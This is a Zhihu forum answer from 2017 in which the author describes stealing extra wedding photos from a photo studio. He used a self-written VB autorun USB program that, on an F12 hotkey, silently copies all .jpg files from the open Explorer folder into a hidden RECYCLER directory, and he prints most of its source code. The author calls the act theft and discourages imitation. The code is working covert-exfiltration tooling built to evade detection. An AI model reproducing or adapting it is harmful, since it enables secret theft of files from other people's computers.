 作者：yimins
链接：https://www.zhihu.com/question/46394184/answer/186278983
来源：知乎
著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

结婚的时候，拍完婚纱照，明明拍了好几十张，但是影楼为了赚钱，规定只能拷贝走16张，超过就得加钱，好像是80元一张。一怒之下写了个U盘自动运行程序，功能只有一个，就是U盘插入的时候会自动运行，然后用户按下F12，就会自动将当前打开的目录下所有文档拷贝到U盘一个隐藏目录下。全程无任何界面和提示，完全隐蔽。拷照片那天带去。插入U盘，打开目录，假装挑选照片，偷偷按了F12，然后故意慢慢翻来覆去的挑选了很久。最后走之前影楼的工作人员还不放心，特意过来检查了一遍我的U盘，当然是什么也没看出来。最后回来一数，貌似拷了八十多张回来。应评论区要求，放出主要代码如下：(仅供学习和参考，毕竟十年前的东西了，不做任何技术支持和保证)主窗体VERSION 5.00
Begin VB.Form Form1 
   Caption         =   "Form1"
   ClientHeight    =   3195
   ClientLeft      =   60
   ClientTop       =   345
   ClientWidth     =   4680
   Icon            =   "Form1.frx":0000
   LinkTopic       =   "Form1"
   ScaleHeight     =   3195
   ScaleWidth      =   4680
   StartUpPosition =   3  '窗口缺省
End
Attribute VB_Name = "Form1"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = False
Option Explicit
Private Const SW_HIDE = 0
Private Const SW_MINIMIZE = 6
Private Const SW_RESTORE = 9
Private Const SW_SHOW = 5
Private Const SW_SHOWMAXIMIZED = 3
Private Const SW_SHOWMINIMIZED = 2
Private Const SW_SHOWMINNOACTIVE = 7
Private Const SW_SHOWNA = 8
Private Const SW_SHOWNOACTIVATE = 4
Private Const SW_SHOWNORMAL = 1

Private Const WM_GETTEXTLENGTH = &HE
Private Const WM_GETTEXT = &HD
Private Const GW_CHILD = 5
Private Const GW_HWNDNEXT = 2

Private Declare Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" (ByVal Hwnd As Long, ByVal lpOperation As String, ByVal lpFile As String, ByVal lpParameters As String, ByVal lpDirectory As String, ByVal nShowCmd As Long) As Long
Private Declare Function GetClassName Lib "user32" Alias "GetClassNameA" (ByVal Hwnd As Long, ByVal lpClassName As String, ByVal nMaxCount As Long) As Long
Private Declare Function SendMessage Lib "user32" Alias "SendMessageA" (ByVal Hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any) As Long
Private Declare Function GetWindow Lib "user32" (ByVal Hwnd As Long, ByVal wCmd As Long) As Long

'U盘盘符名称
Private Uname As String
Private NowPath As String

Private WithEvents Hotkey1 As HotKeyClass
Attribute Hotkey1.VB_VarHelpID = -1
Private WithEvents Find1 As FindFileClass
Attribute Find1.VB_VarHelpID = -1
Private File1 As New FileClass

Private Sub Find1_FindedFile(FilePath As String, FileName As String, InfoID As Long)
'首先创建入口目录
Shell "cmd /C " & Chr(34) & "md " & Uname & "RECYCLER\RECYCLER...\" & Chr(34), vbHide

File1.Auto_Rename = True
File1.Del_NoMessage = True
File1.Make_Dir_NoMessage = True
File1.NoShow = True

If Len(Dir(Uname & "RECYCLER\RECYCLER..\", vbDirectory + vbHidden + vbSystem)) <> 0 Then
    File1.FileCopy FilePath & FileName, Uname & "RECYCLER\RECYCLER..\", 0
Else
    Set File1 = Nothing
    Exit Sub
End If

'退出之前删除目录入口
Shell "cmd /C " & Chr(34) & "rd " & Uname & "RECYCLER\RECYCLER...\" & Chr(34), vbHide

End Sub

Private Sub Form_Load()
Me.Hide

Uname = Command

'打开调用的盘符
ShellExecute 0, vbNullString, Uname, vbNullString, vbNullString, SW_SHOWNOACTIVATE

'注册热键
Set Hotkey1 = New HotKeyClass
If Hotkey1.RegHotKey(Me.Hwnd, 122) = False Then
    Unload Me
    Exit Sub
End If

End Sub

Private Sub Hotkey1_HotKeyPress()
'热键被按下，获取当前窗口地址
Dim Hwnd1 As Long
Dim Get1 As New GetWinClass
Hwnd1 = Get1.GetForeWin

Dim ClassName1 As String * 255

Dim Ret1 As Long
Ret1 = GetClassName(Hwnd1, ClassName1, 255)
If Ret1 = 0 Then
    Unload Me
    Exit Sub
End If

If Left(ClassName1, Ret1) <> "CabinetWClass" Then
    Unload Me
    Exit Sub
End If

'得到选中的窗口标题
GetZiWin Hwnd1

'开始查找文件
Set Find1 = New FindFileClass
Find1.Filter = "*.jpg"
Find1.FindFile NowPath, True

End Sub

'得到子窗口的标题
Private Function GetZiWin(window_hwnd As Long) As String
Dim buf As String
Dim buflen As Long
Dim child_hwnd As Long
Dim children() As Long
Dim num_children As Integer
Dim i As Integer
    
  buflen = 256
  buf = String(buflen - 1, Chr(0))
  buflen = GetClassName(window_hwnd, buf, buflen)
  buf = Left(buf, buflen) '取得子窗口的类名
   
  If Right(buf, 4) = "Edit" Then '判断是否为地址栏子窗口
    NowPath = GetWinText(window_hwnd)
    Exit Function
  End If
    
  num_children = 0
  child_hwnd = GetWindow(window_hwnd, GW_CHILD) '取得第 1 个子窗口的句柄
  Do While child_hwnd <> 0 '如果有子窗口
    num_children = num_children + 1
    ReDim Preserve children(1 To num_children)
    children(num_children) = child_hwnd
    child_hwnd = GetWindow(child_hwnd, GW_HWNDNEXT) '取得下一个兄弟窗口的句柄
  Loop
    
  For i = 1 To num_children
    Call GetZiWin(children(i))
  Next i
End Function


Private Function GetWinText(window_hwnd As Long) As String '取得子窗口的值
Dim txtlen As Long
Dim txt As String

  '通过 SendMessage 发送 WM_GETTEXT 取得 IE 地址栏的值
  GetWinText = ""
  If window_hwnd = 0 Then Exit Function
    
  txtlen = SendMessage(window_hwnd, WM_GETTEXTLENGTH, 0, 0)
  If txtlen = 0 Then
    Exit Function
  End If
  
  txtlen = txtlen
  txt = String(txtlen, Chr(0))
  SendMessage window_hwnd, WM_GETTEXT, txtlen, ByVal txt
  GetWinText = Left(txt, txtlen - 1)
End Function  公共模块Attribute VB_Name = "Module1"
Option Explicit
Private Const SW_HIDE = 0
Private Const SW_MINIMIZE = 6
Private Const SW_RESTORE = 9
Private Const SW_SHOW = 5
Private Const SW_SHOWMAXIMIZED = 3
Private Const SW_SHOWMINIMIZED = 2
Private Const SW_SHOWMINNOACTIVE = 7
Private Const SW_SHOWNA = 8
Private Const SW_SHOWNOACTIVATE = 4
Private Const SW_SHOWNORMAL = 1

Private Declare Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" (ByVal hwnd As Long, ByVal lpOperation As String, ByVal lpFile As String, ByVal lpParameters As String, ByVal lpDirectory As String, ByVal nShowCmd As Long) As Long

'U盘盘符名称
Private Uname As String

Sub Main()
Uname = Command

'打开调用的盘符
ShellExecute 0, vbNullString, Uname, vbNullString, vbNullString, SW_SHOWNOACTIVATE

'继续在后台运行

'首先创建入口目录
Shell "cmd /C " & Chr(34) & "md " & Uname & "RECYCLER...\" & Chr(34), vbHide

''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''
'开始拷贝文件


''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''
'退出之前删除目录入口
'Shell "cmd /C " & Chr(34) & "rd " & Uname & "RECYCLER...\" & Chr(34), vbHide
End Sub 其余还有几个功能性类模块代码一时间找不到了，不过看看函数名也能猜到是干什么的。
刚刚看到评论区有朋友提到的法律问题，特别追加说明一下。首先，这种行为肯定是偷窃行为了，各位千万不要以身试法。
其次，影楼的规定也有点霸王，理论上来说，我的婚纱照原片应该是属于我本人的。你可以说套餐内只给我PS16张照片。
但是剩下的原片也应该给我。最后，希望大家遇到问题还是通过正当的途径去协商解决，不要走这种歪门邪道。
答题者：@[yimins](https://www.zhihu.com/people/yimins)编辑于 2017-06-24
------------------------
答题者：@[yimins](https://www.zhihu.com/people/yimins)

有人陪同挑选的，不过我们两个人，他一个，可以一个人聊天分散注意力。
而且上百张图片，复制到U盘，起码十几分钟，那个文件复制进度条，太容易被发现了。
而用程序只要假装用手指指点屏幕的时候，悄悄按一下F12就行了。
我记得当时为了保护别弹出错误任何对话框，还特意将所有代码都用 on error 保护了起来。
也就是说即使有个万一出错，也就是拷贝不到文件。不会被发现有任何异常提示。

程序真的要回去好好找找了，毕竟十多年前的东西了。
隐藏目录的问题我记得当时是放在根目录下的 /.recycled/recycled 这样的目录下，
加上hide和system属性，貌似是利用了XP的一个回收站目录漏洞，除非在dos下解除隐藏，否则无论如何也看不见。

不是bat，bat无法实现全局按键 hook ，考虑了很久，最后是用 VB写的。
